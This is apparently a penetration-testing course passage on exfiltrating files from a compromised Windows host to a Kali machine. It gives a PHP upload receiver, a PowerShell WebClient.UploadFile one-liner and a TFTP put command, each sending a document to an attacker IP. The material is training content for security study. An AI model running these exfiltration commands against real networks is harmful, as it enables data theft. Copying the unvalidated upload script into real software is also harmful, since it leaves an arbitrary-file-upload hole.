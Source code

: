 # Windows Uploads

## Windows Uploads Using Windows Scripting Languages

In certain scenarios, we may need to exfiltrate data from a target network using a Windows client.

If outbound HTTP traffic is allowed we can create the following PHP script and save it as upload.php in our Kali webroot directory, /var/www/html:

```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Next, we must create the uploads folder and modify its permissions, granting the _www-data_ user ownership and subsequent write permissions:

```bash
kali@kali:/var/www$ sudo mkdir /var/www/uploads
kali@kali:/var/www$ ps -ef | grep apache
kali@kali:/var/www$ sudo chown www-data: /var/www/uploads
kali@kali:/var/www$ ls -la
```

With Apache and the PHP script ready to receive our file, we move to the compromised Windows host and invoke the UploadFile method from the System.Net.WebClient class to upload the document we want to exfiltrate, in this case, a file named important.docx:

```powershell
C:\Users\Offsec> powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

## Uploading Files with TFTP

We first need to install and configure a TFTP server in Kali and create a directory to store and serve files. Next, we update the ownership of the directory so we can write files to it. We will run atftpd as a daemon on UDP port 69 and direct it to use the newly created /tftp directory:

```bash
kali@kali:~$ sudo apt update && sudo apt install atftp
kali@kali:~$ sudo mkdir /tftp
kali@kali:~$ sudo chown nobody: /tftp
kali@kali:~$ sudo atftpd --daemon --port 69 /tftp
```

The final command is similar to the one shown below:

```bash
C:\Users\Offsec> tftp -i 10.11.0.4 put important.docx
Transfer successful: 359250 bytes in 96 second(s), 3712 bytes/s
```

